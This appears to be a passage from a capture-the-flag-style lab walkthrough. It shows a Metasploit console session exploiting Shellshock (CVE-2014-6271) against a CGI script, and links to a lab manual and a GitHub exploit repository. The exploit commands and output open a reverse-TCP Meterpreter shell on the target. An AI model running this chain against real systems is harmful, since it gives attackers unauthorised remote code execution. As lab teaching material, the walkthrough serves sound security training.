 ```
   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CMD_MAX_LENGTH  2048             yes       CMD max line length
   CVE             CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent       yes       HTTP header to use
   METHOD          GET              yes       HTTP method to use
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH           /bin             yes       Target PATH for binaries used by the CmdStager
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI                        yes       Path to CGI script
   TIMEOUT         5                yes       HTTP read response timeout (seconds)
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rhosts 192.181.17.3
rhosts => 192.181.17.3
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set targeturi /gettime.cgi
targeturi => /gettime.cgi
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 192.181.17.2:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (985320 bytes) to 192.181.17.3
[*] Meterpreter session 1 opened (192.181.17.2:4444 -> 192.181.17.3:57322) at 2022-10-17 10:06:35 +0530

meterpreter > sysinfo
Computer     : 192.181.17.3
OS           : Ubuntu 14.04 (Linux 5.4.0-125-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=1, gid=1, euid=1, egid=1
meterpreter > 

```



## 解决方案
此实验室的解决方案可在以下手册中找到：https://assets.ine.com/labs/ad-manuals/walkthrough-1911.pdf

[exploit-CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271)
